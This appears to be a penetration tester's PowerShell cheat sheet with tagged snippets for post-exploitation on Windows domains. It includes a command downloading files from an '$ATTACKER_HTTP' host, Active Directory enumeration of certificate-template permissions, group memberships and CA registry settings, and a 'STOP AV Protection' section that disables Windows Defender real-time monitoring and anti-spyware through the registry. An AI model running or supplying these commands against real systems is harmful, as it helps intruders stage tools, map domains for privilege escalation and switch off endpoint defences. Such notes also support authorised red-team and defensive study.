 Common utilities:
----
Download file from web server, invoke web request:
#powershell #powershell-download #powershell-wget #iwr #invoke-web-request

```powershell
IWR -uri $ATTACKER_HTTP/$FILE -Outfile $FILE
```

Get list  of all available modules:
---
#windows #modules #powershell 

```powershell
Get-Module -ListAvailable
```

Import psm1 module as user:
---
#import #windows #powershell 

```powershell
Import-Module .\$MODULE
```

AD Enum and stuff
---
#windows #powershell #ad #users #enum 

```powershell
Import-Module ActiveDirectory
cd AD:
$acl = Get-Acl 'CN=User,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=$TARGET_AD,DC=$AD_DOMAIN_EXT'
$acl.Access.Count
$acl.Access | where IdentityReference -match 'Domain Users'
```

Get User's Groups
---
#user #groups #windows #powershell 

```powershell
(Get-ADUser $USER –Properties MemberOf).MemberOf
```

or

```powershell
(New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$($env:username)))")).FindOne().GetDirectoryEntry().memberOf
```

using "Get-ADPrincipalGroupMembership":

```powershell
Import-Module ActiveDirectory
Get-ADPrincipalGroupMembership -Identity $USER
```

or

```powershell
Get-ADPrincipalGroupMembership -Identity $USER | Sort-Object name | Format-Table -Expand name
```

Get AD Certificate configuration from the registry:
---
#enum #certificate #ad-template 

```powershell
reg query $TARGET_AD/HKLM/SYSTEM/CurrentControlSet/Services/CertSvc/Configuration/%3c$CA_NAME%3e
```

STOP AV Protection
---
#anti-virus #protection #stop #windows #powershell 


```powershell
Set-MpPreference -DisableRealtimeMonitoring $true  
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender"-Name DisableAntiSpyware -Value 1-PropertyType DWORD -Force
```

or prepend command with:

```powershell
powershell -command $CMD
```